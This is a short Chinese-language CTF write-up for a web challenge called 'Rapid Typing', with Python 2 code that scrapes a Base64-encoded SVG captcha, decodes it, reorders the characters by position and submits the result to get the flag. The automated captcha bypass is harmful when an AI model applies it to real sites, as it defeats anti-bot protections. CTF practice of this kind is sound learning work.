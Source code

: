 ```yaml
---
layout: post
title:  "RapidTyping"
date:   2019-05-15
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Ctf,Web]
tags: [python,web]
icon: icon-html
---
```


[题目链接: Rapid Typing](http://123.207.149.64:23331/captcha/)

F12查看网页源码，发现网页的图片路径是一串由$Base64$加密的字符串，然后在某位大佬的提示下，$python$恐惧症患者开始了垂死挣扎

> 获取图片路径

由于图片的路径是$Base64$加密的，在解密之前应该先提取密文字符串

``` python
import base64
import requests
import re
url = 'http://web1.blue-whale.me:23331/captcha/'
s  = requests.Session()
r = s.get(url)
str = r.text
#print str
str1 = re.findall(r"base64,(.+?)\" /></p>", str)[0]
str2 = base64.b64decode(str1)
```

> 字符排序

x数组代表字符在x轴的位置

y数组代表字符的值

打包起来对x数组排序即可

``` python
x = re.findall(r"x=\"(.+?)\"", str2)
y = re.findall(r";\">(.+?)<", str2)
Z = zip(x, y)
Z.sort(key = (lambda x:int(x[0])))
#print x
#print y
x_new, y_new = zip(*Z)
#print y_new
payload = ''.join(y_new)
```

> payload提交

尝试一发提交以后发现...输入的验证码直接在网址的最后`?code=114514`

然后听说白给？

```python
#print payload
url1= 'http://web1.blue-whale.me:23331/captcha/?code=' + payload
r = s.get(url1)
str = r.text
print str
```

从打印出的网站源码中获取flag即可